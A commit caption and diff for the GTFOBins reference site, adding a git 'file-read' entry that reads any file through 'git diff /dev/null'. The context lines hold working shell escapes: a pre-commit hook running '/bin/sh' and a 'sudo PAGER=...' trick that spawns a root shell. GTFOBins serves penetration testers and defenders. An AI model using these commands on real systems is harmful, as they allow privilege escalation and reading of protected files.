

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/git.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add file read to git

```diff
--- a/_gtfobins/git.md
+++ b/_gtfobins/git.md
@@ -13,6 +13,11 @@ functions:
         echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
         mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
         git -C "$TF" commit --allow-empty -m x
+  file-read:
+    - code: |
+        LFILE=file_to_read
+        git diff /dev/null $LFILE
+    - description: The read file content is displayed in `diff` style output format.
   sudo:
     - code: sudo PAGER='sh -c "exec sh 0<&1"' git -p help
     - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
```
